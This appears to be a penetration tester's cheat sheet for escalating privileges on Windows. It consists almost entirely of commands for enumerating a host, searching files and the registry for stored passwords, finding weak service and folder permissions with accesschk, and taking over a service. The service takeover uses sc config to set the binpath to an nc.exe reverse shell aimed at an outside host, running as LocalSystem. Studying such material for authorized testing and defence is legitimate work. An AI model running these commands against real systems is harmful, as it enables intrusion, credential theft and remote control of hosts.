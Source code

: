
// What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Routing tables
route print

// ARP cache table for all interfaces
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

// Scheduled tasks
schtasks /query /fo LIST /v

// List all started services (DISPLAY_NAME)
net start

// List running processes
tasklist

// Mapping of running processes to started services
tasklist /SVC

// List all drivers
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

### Quick wins
---

// Quick wins
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Policy Preference files that may have "cPassword" attribute set:
Groups.xml: documented password encryption, can be decrypted **SOS**
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes

// Service permissions
sc query
sc qc [service_name]

### Accesschk
---

// Accesschk (part of "sysinternals")
accesschk.exe /accepteula (need to add that if you don't have GUI. maybe only the first time?)

// List all user permissions
accesschk.exe “domain\user” -a *

// List all service permissions for username
accesschk.exe <username> -c *

// display permissions on every file
accesschk.exe /accepteula -s -d IWAM_BOB c:\*.*
// only Read-Write
acaccesschk.exe /accepteula -s -d IWAM_BOB c:\*.* | find "RW" 

accesschk.exe -ucqv [service_name] 
accesschk.exe -uwcqv "[Group name you belong to]" * 

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "[Group name you belong to]" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "[Group name you belong to]" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)

// add user to local group
net localgroup "Users" IWAM_BOB /add

Mostly all of this taken from http://www.fuzzysecurity.com/tutorials/16.html [1]

Links:
---
[1]: http://www.fuzzysecurity.com/tutorials/16.html
[2]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
[3]: http://www.youtube.com/watch?v=kMG8IsCohHA
[4]: http://www.youtube.com/watch?v=_8xJaaQlpBo
[5]: http://www.greyhathacker.net/?p=738
